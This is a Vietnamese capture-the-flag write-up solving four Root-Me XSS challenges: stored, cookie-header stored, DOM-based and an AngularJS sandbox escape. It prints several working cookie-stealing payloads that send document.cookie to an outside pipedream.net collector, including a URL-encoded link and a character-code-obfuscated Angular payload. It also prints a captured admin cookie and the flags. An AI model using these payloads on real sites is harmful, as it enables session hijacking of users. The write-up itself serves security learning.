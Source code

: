# Trần Mạnh Huy

* [Chall 1:	XSS - Stored 1](#chall-1-xss---stored-1)
* [Chall 2: XSS - Stored 2](#chall-2-xss---stored-2)
* [Chall 3: XSS DOM Based - Introduction](#chall-3-xss-dom-based---introduction)
* [Chall 4: XSS DOM Based - AngularJS](#chall-4-xss-dom-based---angularjs)
* [Chall 5: XSS DOM Based - Eval](#chall-5-xss-dom-based---eval)
* [Chall 6: XSS - Reflected](#chall-6-xss---reflected)
* [Chall 7: XSS DOM Based - Filters Bypass](#chall-7-xss-dom-based---filters-bypass)
*
*


## Chall 1: Xss - Stored 1

```
Statement
Steal the administrator session cookie and use it to validate this chall.

```

Đây là 1 chall đơn giản về stored xss. Có 2 phần nhập title và message, gửi abcd ở cả 2 rồi check source bên burpsuite.
Có vẻ tiêm được script nên test luôn: <script>alert(1)</script>, và alert được, vậy thì triển tiếp thôi.

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_02.jpg)


Ý tưởng là ta sẽ lưu scipt cướp cookie ở form message và ngồi đợi thằng admin đến đọc cái message đó và bay màu.

Truyền payload vào message để lấy cookie: <script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".cocat(documemt.cookie)</script>

Ở đây dùng đường dẫn trên pipedream kết hợp với concat để nối thực hiện chuỗi, được server trả về kết quả:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_03.jpg)


> Flag: _ga=GA1.1.73691999.1669083110


## Chall 2: XSS - Stored 2

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_01.jpg)

Vẫn như bài trước cho ta 2 phần nhập nhưng thêm 1 số tính năng, và giờ title và message đã bị encode html enities nên kh thực hiện xss được ở đây.

Nếu để ý kĩ, mình sẽ thấy giá trị cookie status=invite đang được hiện thị trên page và không bị fitler html entities. Ta có thể tận dụng ở đây để thực hiện xss

#### Payload: Cookie: status="><script>alert(1)</script>

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

Thực hiện alert thành công, tương tự như bài trước ta gửi payload:

> "><script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".concat(document.cookie)</script>

Ta nhận được cookie trả về :

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_03.jpg)

Có được cookie rồi ta ném vào ?section=admin để lấy flag

> COOKIE: status=invite;ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

> FLag: E5HKEGyCXQVsYaehaqeJs0AfV

## Chall 3: XSS DOM Based - Introduction

```
Steal the admin’s session cookie.

```
Source:
```
<script>
var random = Math.random() * (99);
var number = '12';
if(random == number) {
    document.getElementById('state').style.color = 'green';
    document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
}
else{
    document.getElementById('state').style.color = 'red';
    document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
}
</script>

```

Ở đây ta đang có param number nhận input đầu vào, mình thử 1 số bất kì, và trang nó render như sau:

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_01.jpg)

Đây là 1 chall đơn giản để giới thiệu về dom-based nên không có filter gì cả, ta sẽ chèn script mình vào thông qua cái param number và bởi vì nó là dom nên đoạn mã độc được sẽ được thực thi bởi đoạn Javascript phía client mà không cần server xử lý request:

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_02.jpg)

Thực hiện alert được rồi thì tấn công thôi:

>Script: '; document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".concat(document.cookie) ;//

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_03.jpg)

Gửi đường dẫn vào phần contact: http://challenge01.root-me.org/web-client/ch32/index.php?number=123%27%3B+document.location%3D%22https%3A%2F%2Feo7xxasp6lhfvaj.m.pipedream.net%2F%3Fc%3D%22.concat%28document.cookie%29+%3B%2F%2F

Ta được flag trả về:  

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_04.jpg)

> flag: rootme{XSS_D0M_BaSed_InTr0}


## Chal 4: XSS 

```
Steal the admin’s session cookie.

```
Đạp vào mắt ta là 2 phần main và contact, 1 cái thì để xss còn cái còn lại là gửi cho con bot rồi. Triển thôi:

![]()

Đầu tiên phải alert được đã, đọc source:

```
   <p id="name_encoded">Result for  abcd:</p>
        <script>
            var name = ' abcd';
            var encoded = '';
            for(let i = 0; i < name.length; i++) {
                encoded += name[i] ^ Math.floor(Math.random() * name.length);
            }
            encoded = Math.abs(encoded ^ Math.floor(Math.random() * name.length));
            document.getElementById('name_encoded').innerText += ' ' + encoded;
        </script>
        
 ```

Cái ta cần bypass ở đây là truyền sao cho vượt qua được giá trị var name, ví dụ thành var name = '' ; alert(1) -- . Nhưng có vẻ ' bị mã hóa rồi.
Ta dùng script sau: 

```
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}}

```
>Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md

![image](https://user-images.githubusercontent.com/104350480/218153267-ba81ca39-fbe3-4094-94a1-51de61b14277.png)

Sau khi alert được ròi thì ta làm tương tự như trên thôi, ta sẽ gửi đường link kèm theo payload xss và khi thằng admin truy cập vào thì payload sẽ được trigger dưới session của admin:

> Payload: 	
http://challenge01.root-me.org/web-client/ch35/?name={{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,101,111,55,120,120,97,115,112,54,108,104,102,118,97,106,46,109,46,112,105,112,101,100,114,101,97,109,46,110,101,116,47,63,99,61,34,46,99,111,110,99,97,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))()}}

Được flag trả về:


![image](https://user-images.githubusercontent.com/104350480/218155614-d3be95db-d5b1-4df7-bcb3-a6e268a5df48.png)

>Flag: rootme{@NGu1@R_J$_1$_C001}
